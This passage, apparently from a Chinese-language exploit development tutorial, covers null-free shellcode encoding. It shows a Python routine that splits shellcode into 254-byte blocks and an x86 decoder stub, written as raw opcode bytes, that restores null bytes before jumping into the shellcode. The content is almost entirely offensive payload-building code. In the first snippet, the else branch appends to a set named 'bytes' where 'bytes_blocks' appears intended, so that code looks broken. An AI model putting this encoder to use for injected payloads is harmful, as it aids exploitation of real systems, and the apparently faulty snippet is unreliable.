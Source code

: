 ```
 
        # Tries to find as many 254-byte contiguous blocks as possible which misses at
        # least one non-null value. Note that a single 254-byte block always misses at
        # least one non-null value.
        while True:
            if i >= shellcode_len or num_blocks == 255:
                bytes_blocks += [missing_bytes[0], num_blocks]
                break
            bytes = set([ord(c) for c in shellcode[i:i+254]])
            new_missing_bytes = [b for b in missing_bytes if b not in bytes]
            if len(new_missing_bytes) != 0:         # new block added
                missing_bytes = new_missing_bytes
                num_blocks += 1
                i += 254
            else:
                bytes += [missing_bytes[0], num_blocks]
                break
<snip>

```

就像之前，我们需要讨论在`shellcode`起始部分提前准备好的“`decoder`”。该`decoder`的代码比之前的更长，但是原理相同。

这里是代码:

```
code = ([
    0xEB, len(bytes_blocks)] +                          #   JMP SHORT skip_bytes
                                                        # bytes:
    bytes_blocks + [                                    #   ...
                                                        # skip_bytes:
    0xE8, 0xFF, 0xFF, 0xFF, 0xFF,                       #   CALL $ + 4
                                                        # here:
    0xC0,                                               #   (FF)C0 = INC EAX
    0x5F,                                               #   POP EDI
    0xB9, xor1[0], xor1[1], xor1[2], xor1[3],           #   MOV ECX, <xor value 1 for shellcode len>
    0x81, 0xF1, xor2[0], xor2[1], xor2[2], xor2[3],     #   XOR ECX, <xor value 2 for shellcode len>
    0x8D, 0x5F, -(len(bytes_blocks) + 5) & 0xFF,        #   LEA EBX, [EDI + (bytes - here)]
    0x83, 0xC7, 0x30,                                   #   ADD EDI, shellcode_begin - here
                                                        # loop1:
    0xB0, 0xFE,                                         #   MOV AL, 0FEh
    0xF6, 0x63, 0x01,                                   #   MUL AL, BYTE PTR [EBX+1]
    0x0F, 0xB7, 0xD0,                                   #   MOVZX EDX, AX
    0x33, 0xF6,                                         #   XOR ESI, ESI
    0xFC,                                               #   CLD
                                                        # loop2:
    0x8A, 0x07,                                         #   MOV AL, BYTE PTR [EDI]
    0x3A, 0x03,                                         #   CMP AL, BYTE PTR [EBX]
    0x0F, 0x44, 0xC6,                                   #   CMOVE EAX, ESI
    0xAA,                                               #   STOSB
    0x49,                                               #   DEC ECX
    0x74, 0x07,                                         #   JE shellcode_begin
    0x4A,                                               #   DEC EDX
    0x75, 0xF2,                                         #   JNE loop2
    0x43,                                               #   INC EBX
    0x43,                                               #   INC EBX
    0xEB, 0xE3                                          #   JMP loop1
                                                        # shellcode_begin:
])

```
